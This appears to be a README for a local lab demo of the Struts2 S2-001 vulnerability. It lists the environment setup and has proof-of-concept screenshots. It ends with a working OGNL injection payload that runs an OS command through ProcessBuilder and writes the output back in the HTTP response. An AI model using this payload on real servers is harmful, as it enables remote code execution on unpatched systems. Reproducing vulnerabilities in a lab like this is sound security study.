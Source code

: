## S2-001 Demo

### Environment

Struts2 Version: `struts-2.0.1-all`

Tomcat: `8.5.53`

IDE: `idea 2020.1.1 ULTIMATE`

(Maybe you should do this.) Open the project with idea, and readd all the jars at web/WEB_INF/lib.

![{86B8007A-5296-441A-9637-0A5AFBDF7FE6}_20200619163625]({86B8007A-5296-441A-9637-0A5AFBDF7FE6}_20200619163625.jpg)

### POC

![{BAE4AA09-A99E-47E7-8197-E7006D373882}_20200619165731]({BAE4AA09-A99E-47E7-8197-E7006D373882}_20200619165731.jpg)

![{FDDB7DE1-A721-4C4B-A719-BEA79D4F0AC0}_20200619170042]({FDDB7DE1-A721-4C4B-A719-BEA79D4F0AC0}_20200619170042.jpg)

### payload

`%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}`

### Reference

- [【Struts2-命令-代码执行漏洞分析系列】S2-001](https://xz.aliyun.com/t/2044)


